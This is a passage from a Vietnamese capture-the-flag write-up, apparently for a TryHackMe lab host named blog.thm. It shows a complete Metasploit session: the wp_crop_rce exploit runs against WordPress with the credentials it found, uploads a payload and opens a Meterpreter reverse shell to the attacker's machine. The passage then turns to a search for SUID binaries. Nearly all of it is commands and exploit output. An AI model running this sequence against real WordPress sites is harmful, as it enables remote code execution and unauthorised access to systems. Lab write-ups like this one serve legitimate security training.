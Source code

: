 ## Exploit 
### Metasploit
Sau khi có đầy đủ options cho **msf** ta tiến hành tấn công 
```
$ msfconsole -q
msf5 > use exploit/multi/http/wp_crop_rce
msf5 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf5 exploit(multi/http/wp_crop_rce) > set rhost blog.thm
rhost => blog.thm
msf5 exploit(multi/http/wp_crop_rce) > set username kwheel
username => kwheel
msf5 exploit(multi/http/wp_crop_rce) > set password cutiepie1
password => cutiepie1
msf5 exploit(multi/http/wp_crop_rce) > exploit 

[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38288 bytes) to 10.10.10.32
[*] Meterpreter session 1 opened (10.9.0.54:4444 -> 10.10.10.32:45862) at 2020-08-13 20:48:02 +0200
[*] Attempting to clean up files...

meterpreter > 
```
Mở shell và tìm SUID. Ta kiểm tra xem tập tin nào thuộc quyền sở hữu của root và có tập bit setuid sẽ phát hiện ra sự hiện diện của một tệp thực thi không xác định `/usr/sbin/checker`: 
